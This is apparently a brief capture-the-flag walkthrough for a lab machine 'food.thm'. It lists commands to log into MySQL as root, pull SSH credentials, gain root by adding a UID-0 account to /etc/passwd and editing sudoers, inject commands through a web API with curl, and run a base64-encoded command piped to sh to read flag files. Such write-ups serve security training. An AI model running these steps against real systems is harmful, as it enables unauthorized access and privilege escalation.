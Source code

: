 # Food
## Ramen
 1. `mysql -u root -h food.thm -p` password is `root`
 2. `select * from user` now you have user `ramen : noodlesRTheBest`
 3. `ssh ramen@food.thm`
 4. `nc -nvlp 8888`
 5. ### Universal Priv. Esc.
 6. `/usr/bin/vim.basic /etc/passwd` and add `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash` password is `pass123`
 7. `/usr/bin/vim.basic /etc/sudoers` and add `user3 ALL=(ALL:ALL) ALL`
## Bread
1. `curl -d "command" food.thm:15065/api/cmd`

### Not Tested Priv. Esc.
1. https://www.exploit-db.com/exploits/41154
# Flags
1. /root/flag
2. /root/.profile
3. /root/.mysql_history
4. /home/bread/flag
5. /home/food/.flag
6. /home/tryhackme/flag7
7. /var/flag.txt
8. /var/log/auth.log

### Read All Flags
```
echo Y2F0IC9yb290L2ZsYWc7Y2F0IC9yb290Ly5wcm9maWxlO2NhdCAvcm9vdC8ubXlzcWxfaGlzdG9yeTtjYXQgL2hvbWUvYnJlYWQvZmxhZztjYXQgL2hvbWUvZm9vZC8uZmxhZztjYXQgL2hvbWUvdHJ5aGFja21lL2ZsYWc3O2NhdCAvdmFyL2ZsYWcudHh0O2NhdCAvdmFyL2xvZy9hdXRoLmxvZw== |base64 -d |sh
```
